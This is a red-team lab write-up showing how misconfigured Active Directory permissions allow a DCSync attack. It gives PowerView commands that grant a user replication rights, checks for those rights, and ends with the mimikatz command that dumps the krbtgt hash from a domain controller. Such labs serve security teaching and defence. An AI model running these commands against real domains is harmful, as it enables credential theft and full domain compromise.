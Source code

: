 # DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663%28v=vs.85%29.aspx)” extended right \(this one isn’t always needed but we can add it just in case :\)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-18-32.png)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-02.png)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-09.png)

Let's grab the SID of the user spotless with `whoami /all`:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-28-18.png)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-27-54.png)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-15-11-36.png)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-34-44%20%281%29.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

